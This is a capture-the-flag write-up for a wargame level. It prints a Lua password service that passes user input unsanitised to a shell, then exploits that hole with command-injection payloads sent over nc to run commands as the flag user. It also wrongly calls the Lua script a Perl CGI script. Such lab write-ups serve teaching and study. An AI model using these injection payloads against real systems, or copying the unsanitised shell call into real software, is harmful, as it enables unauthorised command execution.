

# Level 11

## Initial Context

- A single file: `level11.lua`

## Solving the Challenge

### Analyzing

There is only a single CGI perl script:

```perl
$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

#### Reverse approach

The program seems to ask for a password, and then compare it with a SHA1.

Using Google's first search result, [md5hashing.net](https://md5hashing.net/hash/sha1/f05d1d066fb246efe0c6f7d095f909a7a0cf34a0) has a match.



But using it as the `flag11`'s password does not works.

#### Concat approach

The program concat the password without doing any sanitization.

```perl
io.popen("echo "..pass.." | sha1sum", "r")
```

So by sending a subshell, we should be able to execute a command. But since everything is piped to a `sha1sum` command, we need to find a way to write in a file the result. That why `tee` is used: it can write the input it gets to a file and to the standard output. After that, we can simply read what he wrote in the file.

```bash
$ echo '$(id) | tee /tmp/level11' | nc 127.0.0.1 5151 && cat /tmp/level11
Password: Erf nope..
uid=3011(flag11) gid=3011(flag11) groups=3011(flag11),1001(flag)
```

Confirmed! Now the `getflag` command:

```bash
$ echo '$(getflag) | tee /tmp/level11' | nc 127.0.0.1 5151 && cat /tmp/level11
Password: Erf nope..
Check flag.Here is your token : ....
```